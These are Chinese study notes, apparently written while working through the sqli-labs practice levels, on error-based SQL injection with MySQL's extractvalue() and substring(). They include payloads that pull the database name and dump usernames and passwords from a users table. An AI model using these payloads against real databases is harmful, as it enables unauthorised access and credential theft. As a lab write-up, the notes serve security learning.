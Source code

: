 5. 利用 extractvalue 报错注入：

6. ```sql
   select extractvalue(1, concat(0x7e, (select database())))
   ```

7. 注意 select database() 必须用括号括起来，才会被当成代码执行。 0x7e 是飘带符号~的代码。

8. 注意这里用 union 连接前面的句子时其实不用考虑列数有没有对齐，报错照样回显

9. 后面的步骤与前面相同

10. 遇到问题：最多默认返回32个字符，利用 substring/substr 函数解决

11. ```sql
    union select 1,2,extractvalue('nanamo', substring(concat(0x7e, (select group_concat(username,'~',password) from users)),4,30))
    ```

substr(string, a, b)

利用 extractvalue() 注入：

```sql
select extractvalue('XML_document','Xpath_string') from xml
```

正常查询语句

Xpath_string例子：/book/author/surname

1. 若查询不存在的路径，找不到内容但不报错
2. 将 / 改为 ~ 产生错误 xpath syntax error 后面跟着路径回显，于是通过这处回显进行注入

substring()

```sql
substring(123456,1,3)
```

返回：123

```sql
substring(123456,4,3)
```

返回：456

即下标从1开始，第一个参数表示字符串，然后取从第二个参数给定的下标开始，数第三个参数给定的个数，得到的子串



## less-5_floor
### 报错注入

相关函数：
